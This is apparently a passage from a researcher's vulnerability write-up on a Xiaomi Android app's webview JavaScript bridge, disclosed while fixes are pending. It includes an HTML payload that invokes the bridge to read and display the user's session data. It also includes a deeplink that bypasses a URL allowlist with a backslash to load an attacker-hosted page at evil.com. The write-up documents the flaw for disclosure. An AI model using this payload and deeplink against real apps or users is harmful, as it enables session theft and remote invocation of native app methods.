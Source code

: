 In this case, I was able to extract some very valuable information from resources > assets > js > jsBridge-mix.js which contained a lot of code involving native webview to Java interaction. You can find the JS [here](https://gist.github.com/t4kemyh4nd/12603f7b7e1261d505c786cdef049b6f), to see what I was dealing with. After understanding the code, I figured out a lot of function calls and what their purpose is. Looking for the get_session_data() from above also showed how a call looks like:

[![](https://lh3.googleusercontent.com/-noiW9UX23Es/YSrxwYiKudI/AAAAAAAABt4/4eoH2HfAMGESzZ-sHhMzXsvnu799-UIRwCLcBGAsYHQ/s16000/Screenshot%2B2021-08-29%2Bat%2B8.02.26%2BAM.png)](https://lh3.googleusercontent.com/-noiW9UX23Es/YSrxwYiKudI/AAAAAAAABt4/4eoH2HfAMGESzZ-sHhMzXsvnu799-UIRwCLcBGAsYHQ/Screenshot%2B2021-08-29%2Bat%2B8.02.26%2BAM.png)

The **s()** function is basically a modified call to invoke the JS bridge. So now we can build the following payload which will alert the user's session data to us:

```
<html>
  <body>
    <script src='remote-server/jsBridge-mix.js'> //host the jsBridge-mix.js from resources directory
      JsBridge.invoke("get_session_data", {}, function(a) { //the a variable will contain the response JSON object from the Java code
                        var i = {};
                        i = a;
                        window.alert(JSON.stringify(i);
                    })
    </script>
  </body>
</html>


```

Making this attack remote is as easy as using a deeplink in your HTML page and having a user click on it. 

<a href='migamecenter://openurl?**https://api.music.xiaomi.com/web?url=http://www.evil.com\www.xiaomi.com>** with the above HTML payload hosted inside.

Similarly, I can read the rest of the code and also reverse engineer a payload to execute any method that I want to, like the client_method_execute().

That's all for part 1. I will release more of my findings once Xiaomi fixes them. Thanks for reading :)